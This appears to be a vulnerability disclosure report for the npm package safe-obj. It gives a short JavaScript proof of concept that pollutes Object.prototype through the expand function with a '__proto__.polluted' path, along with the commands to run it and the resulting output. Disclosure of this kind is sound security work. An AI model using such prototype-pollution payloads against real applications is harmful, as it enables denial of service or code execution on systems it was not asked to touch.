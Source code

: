 # Description

`safe-obj` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var safeObj = require("safe-obj")
var obj = {};
console.log("Before: " + {}.polluted)
safeObj.expand(obj, "__proto__.polluted", true)
console.log("After: " + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i safe-obj # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.